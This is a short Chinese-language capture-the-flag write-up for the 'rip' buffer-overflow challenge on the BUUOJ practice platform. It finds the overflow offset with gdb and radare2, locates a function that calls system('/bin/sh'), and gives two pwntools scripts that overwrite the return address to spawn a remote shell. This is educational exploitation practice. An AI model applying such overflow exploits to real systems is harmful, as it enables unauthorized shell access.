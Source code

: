 # rip

### Solve

1. 先用r2看一下main裡面有什麼東西，可以看到get這個function接著用於是用BOF去測測看，可以得到offset為23

    ![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/442a0a07-c2ac-4835-a0e2-785ca6495496/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/442a0a07-c2ac-4835-a0e2-785ca6495496/Untitled.png)

    ※ offset：
    gdb$ pattc 100
    gdb$ crashoff

2. 再用r2的afl看看有哪些function，結果看到可疑的sym.fun，於是點進去看看

    ![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e71467a2-0080-4715-a965-f9317dfb4a16/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e71467a2-0080-4715-a965-f9317dfb4a16/Untitled.png)

3. 可以看到裡面直接call了system("/bin/sh")，正是我們的目標，於是我們用disas fun找到fun function的address

    ![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7f7dc7ca-49fb-4a82-9f30-f1287207a6be/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7f7dc7ca-49fb-4a82-9f30-f1287207a6be/Untitled.png)

### exp 1

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/164cf9de-4b2a-44d8-a4ff-f67514926211/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/164cf9de-4b2a-44d8-a4ff-f67514926211/Untitled.png)

```python
from pwn import *

host = "node3.buuoj.cn"
port = 29171

r = remote(host, port)
payload = "a"*23
fun = 0x401187 # 0x40118a both correct
payload += p64(fun)
r.sendline(payload)

r.interactive()
```

### exp 2

```python
from pwn import *

host = "node3.buuoj.cn"
port = 29171

r = remote(host, port)
payload = "a"*15
fun = 0x401186
payload += p64(fun)
r.sendline(payload)

r.interactive()
```
